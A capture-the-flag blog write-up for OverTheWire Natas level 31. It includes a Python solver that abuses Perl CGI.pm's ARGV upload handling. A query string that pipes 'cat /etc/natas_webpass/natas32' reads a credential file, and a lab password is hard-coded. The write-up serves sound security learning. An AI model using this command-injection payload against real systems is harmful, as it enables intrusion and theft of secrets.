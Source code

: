 ```yaml
---
layout: post
title:  "Natas Level 30 → Level 31"
date:   2021-06-08 02:13:09
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: From CGI.pm with love
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
Logging into the natas31 site we see a form to allow us to log in and a link to the source code. Let's look at the source code.

```perl
my $cgi = CGI->new;
if ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    ...
    while (<$file>) {
        ...
```

If you haven't seen [The Perl Jam 2: The Camel Strikes Back](https://www.youtube.com/watch?v=BYl3-c2JSL8) from BlackHat 2016, I'd recommend giving it a watch. You can jump to [17:13](https://youtu.be/BYl3-c2JSL8?t=1011) if you'd like to see the portion directly related to this level. The above code is nearly identical to the code from the video. 

I'll leave you to watch the video from at least 17:13 for an explanation of why this code is exploitable. 

Below is the Python code I used to solve this level.

```python
import re
import os.path
import requests
from requests.auth import HTTPBasicAuth

password = 'hay7aecuungiuKaezuathuk9biin0pu1'
session = requests.Session()

auth = HTTPBasicAuth('natas31', password)
url = 'http://natas31.natas.labs.overthewire.org/'
payload = url + '?cat /etc/natas_webpass/natas32 |'

if not os.path.exists('natas31.csv'):
    with open('natas31.csv', 'w') as f:
        f.write('temp,file')

csv = {'file': open('natas31.csv', 'rb')}

resp = requests.post(payload, files=csv, data={'file': 'ARGV', 'submit': 'Upload'}, auth=auth)
page = resp.text

if os.path.isfile('natas31.csv'):
    os.remove('natas31.csv')

x = re.findall("([a-zA-Z0-9]{32})", page)
print(x[-1])
```

This code creates a temporary .csv file needed to perform the attack. The file is deleted afterward. The password to the next level will be returned after the upload finishes.